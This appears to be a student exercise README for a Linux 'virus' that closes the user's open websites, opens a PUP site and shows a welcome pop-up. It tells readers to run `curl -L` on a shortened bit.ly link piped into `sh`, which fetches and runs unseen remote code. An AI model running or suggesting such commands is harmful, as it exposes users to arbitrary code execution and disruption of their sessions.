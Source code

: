 # Exercise 02 - Create Your First Virus
## Task
Create your first virus
- Executable file
- Will open browser and PUP website automatically
- Will close all other website
- Pop up message, "Welcome to PUP"
## Prerequisites
To be able to run the virus, the host machine should be:
- Running any Linux Operating System
- Has either `google-chrome` or `firefox` or `brave` browser
## Running the Virus
To execute the virus, copy and paste the command below:
```sh
curl -L https://bit.ly/4fJCXo0 | sh
```

